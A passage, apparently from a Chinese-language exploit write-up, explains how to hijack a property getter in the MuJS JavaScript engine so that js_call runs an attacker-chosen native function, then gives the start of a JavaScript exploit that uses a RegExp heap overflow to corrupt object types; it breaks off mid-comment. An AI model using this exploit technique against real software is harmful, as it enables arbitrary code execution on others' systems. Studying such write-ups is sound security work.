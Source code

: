 而後，我們的目標需要做 function call，而當執行如 `obj.property` 時，會透過 property 的  `getter` 取得 property 的資訊， `getter` 本身也是一個 `js_Object`，如果能改寫 `getter`  pointer 到，下方可控的位置，就能任意控制 `obj.property` 時的行為。當 `js_Object` type 為 `JS_CCFUNCTION`，這樣就會在 `js_call()` 時直接呼叫 natvie C function，也就是 `u.c.function` 指向的 address：

```c
void js_call(js_State *J, int n)
{
	...
	} else if (obj->type == JS_CCFUNCTION) {
		jsR_pushtrace(J, obj->u.c.name, "native", 0);
		jsR_callcfunction(J, n, obj->u.c.length, obj->u.c.function);
		--J->tracetop;
	}
	...
}
```

```c
static void jsR_callcfunction(js_State *J, int n, int min, js_CFunction F)
{
	...
	F(J); // <----- here
	v = *stackidx(J, -1);
	TOP = --BOT; /* clear stack */
	js_pushvalue(J, v);
}
```

步驟為：

- 在可控處 A 構造 property，將 property 的 `getter` 指向可控處 B，並且為 property 取一個名字 (e.g. `trigger`)
-  `getter` 指到的部分會是一個 `js_Object`，控制 type 為 `JS_CCFUNCTION`，`u.c.function` 為指定要執行的 address
- 蓋掉某 object 的 property 成第一步所構造的 property (可控處 A)，並執行 `obj.trigger`



exploit:

```js
var STR = [];
var cnt = 1;
STR[cnt] = 'P';
/* STR[1] = 'q' ; [2] = 'qq' ; [4] = 'qqqq' ... */
for (var i = 0; i < 16 ; i++) {
    STR[cnt*2] = STR[cnt] + STR[cnt];
    cnt *= 2;
}

function u64(s) {
    var num = 0;
    for (var i = 7; i >= 0; i--) {
        num *= 256;
        num += s.charCodeAt(i);
    }
    return num;
}

// js_Object size 0x68
// 0x11 == JS_CDATAVIEW
// 0x80 - for allocation memory
// 0x40 - for RegExp source string
var overflow = [ STR[0x10000].slice(0x81+0x1), STR[0x80] + STR[0x40] + '\x11'];
/* default --> 0x1
 * [0] --> 0xff7e (0x10000 - 0x82) (total: 0xff7f)
 * [1] --> 0x80 + 0x40 + 0x1 (total: 0x40)
 *
 * first time will use malloc(65407 + 8)
 * second time will realloc(J, out, 0x40) --> my_malloc(0x40) --> get ptr
```